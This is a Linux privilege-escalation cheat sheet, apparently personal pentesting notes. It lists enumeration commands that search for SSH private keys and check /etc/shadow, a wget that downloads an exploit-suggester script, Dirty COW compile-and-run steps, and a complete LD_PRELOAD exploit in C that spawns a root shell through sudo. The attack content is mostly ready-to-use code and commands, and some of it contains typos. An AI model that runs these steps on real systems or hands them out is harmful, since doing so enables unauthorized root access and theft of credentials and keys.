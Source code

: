 # Check id
id

# check who are you
whoami

# Check all the file you can read
ls -arh

# check weak file permission
ls -la /etc/shadow

# Check ssh key 
find / -name authorized_keys 2> /dev/null
find / -name id_rsa 2> /dev/null
can search for the pattern

# find suid file
find / -perm -u=\s -type f 2>/dev/null
after saving the suid go through all the lib with gtfbin.io

# capicity
getcap -r 2>/dev/null

# cronjob
# check all the posibble.
crontab -l 
cat /etc/crontab

# kernel exploit
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh

# dirty cow
https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
gcc -pthread cow.c -o cow
./cow

# LD_PRELOAD on the enviroment
Linux VM

1. In command prompt type: sudo -l
2. From the output, notice that the LD_PRELOAD environment variable is intact.

Exploitation

1. Open a text editor and type:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
2. Save the file as x.c
3. In command prompt type:
gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles
4. In command prompt type:
sudo LD_PRELOAD=/tmp/x.so apache2
5. In command prompt type: id
